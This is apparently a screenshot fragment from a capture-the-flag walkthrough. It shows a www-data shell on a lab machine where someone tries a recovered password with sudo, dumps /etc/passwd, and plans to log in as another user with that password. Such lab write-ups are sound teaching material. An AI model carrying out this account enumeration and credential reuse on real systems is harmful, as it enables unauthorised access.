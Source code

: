 ```bash
Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
www-data@startup:/home$ exit
exit
exit
$ exit
```

>>Logging in as lennie with the password we found then cat out th user.txt
